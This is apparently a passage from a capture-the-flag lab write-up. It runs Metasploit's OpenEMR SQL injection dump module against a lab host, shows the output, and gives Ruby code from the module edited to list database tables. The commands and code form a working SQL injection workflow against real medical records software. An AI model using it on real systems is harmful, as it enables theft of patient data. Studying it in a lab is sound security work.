       Name       Current Setting  Required  Description
      ----       ---------------  --------  -----------
      Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
      RHOSTS     10.10.10.188     yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
      RPORT      80               yes       The target port (TCP)
      SSL        false            no        Negotiate SSL/TLS for outgoing connections
      TARGETURI  /                yes       The base path to the OpenEMR installation
      VHOST      hms.htb          no        HTTP server virtual host


    msf5 auxiliary(sqli/openemr/openemr_sqli_dump) > run
    [*] Running module against 10.10.10.188

    [*] DB Version: 5.7.30-0ubuntu0.18.04.1
    [*] Enumerating tables, this may take a moment...
    [*] Identified 295 tables.
    [*] Dumping table (1/295): CHARACTER_SETS
    ^C[-] Stopping running against current target...
    [*] Control-C again to force quit all targets.

We grab the exploit code on [rapid7 github](https://github.com/rapid7/metasploit-framework/blob/master/modules/auxiliary/sqli/openemr/openemr_sqli_dump.rb)
and rewrite the `dump_all` module in order to just list the different tables (we
just comment the lines dumping and saving the tables).

    :::ruby
      def dump_all
        payload = 'version()'
        db_version = exec_payload_and_parse(payload)
        print_status("DB Version: #{db_version}")
        print_status('Enumerating tables, this may take a moment...')
        tables = enumerate_tables
        num_tables = tables.length
        print_status("Identified #{num_tables} tables.")

        # These tables are impossible to fetch because they increase each request
        skiptables = %w[form_taskman log log_comment_encrypt]
        tables.each_with_index do |table, i|
          if skiptables.include?(table)
            print_status("Skipping table (#{i + 1}/#{num_tables}): #{table}")
          else
            print_status("Dumping table (#{i + 1}/#{num_tables}): #{table}")
            #table_data = walk_table(table)
            #save_csv(table_data, table)
          end
        end
        print_status("Dumped all tables to #{Msf::Config.loot_directory}")
      end

We load our
[private msf module](https://github.com/rapid7/metasploit-framework/wiki/Running-Private-Modules)
configure it and run it.
